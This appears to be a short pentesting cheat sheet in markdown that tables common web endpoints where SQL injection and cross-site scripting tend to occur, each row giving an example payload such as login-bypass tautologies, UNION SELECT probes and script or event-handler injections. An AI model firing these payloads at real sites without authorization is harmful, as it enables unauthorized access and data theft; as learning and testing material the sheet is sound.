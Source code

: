 # Endpoints & Where to find them (Ofc Vulnerable One):

### 🧨 SQL Injection (SQLi) - Where to Look

| Endpoint Example                   | Method | Parameter/Field     | Location        | Example Payload             |
|-----------------------------------|--------|---------------------|------------------|-----------------------------|
| `/login`                          | POST   | `username`, `pass`  | Web Form         | `' OR '1'='1`               |
| `/search?q=`                      | GET    | `q` (search term)   | URL Query        | `test'--`                   |
| `/products?id=1`                  | GET    | `id`                | URL Query        | `1 OR 1=1`                  |
| `/order`                          | POST   | `productId`         | API Body JSON    | `"productId":"1 OR 1=1"`    |
| `/profile/update`                | POST   | `user_id`           | Cookie/Header    | `1' UNION SELECT...`        |
| `/api/products/filter`            | POST   | `filterBy`          | API Body         | `' OR 'a'='a`               |
| `/admin.php?view=users`           | GET    | `view`              | URL              | `' UNION SELECT NULL,NULL`  |

🔍 *Look at query parameters, form inputs, and even headers like cookies or custom headers.*

---

### 🎯 Cross-Site Scripting (XSS) - Where to Look

| Endpoint Example                   | Method | Parameter/Field      | Location         | Example Payload                          |
|-----------------------------------|--------|----------------------|------------------|------------------------------------------|
| `/search?q=`                      | GET    | `q`                  | URL              | `<script>alert(1)</script>`              |
| `/comment`                        | POST   | `comment`            | Web Form/API     | `<img src=x onerror=alert(1)>`           |
| `/profile?name=`                  | GET    | `name`               | URL              | `"><script>alert('xss')</script>`        |
| `/api/feedback`                   | POST   | `message`            | API JSON Body    | `<svg onload=alert(1)>`                  |
| `/dashboard`                      | GET    | Injected DOM Input   | DOM (via JS)     | `location.hash = "<script>..."`          |
| HTTP Headers                      | ANY    | `Referer`, `User-Agent`| Headers         | `<script>alert(1)</script>`              |
| 404/500 Error Pages               | GET    | URL/Reflected inputs | Server Response  | `/nonexistent<script>alert(1)</script>`  |

🔍 *DOM-based XSS often hides in JavaScript-rendered pages, while reflected and stored XSS appear through immediate or saved reflections.*
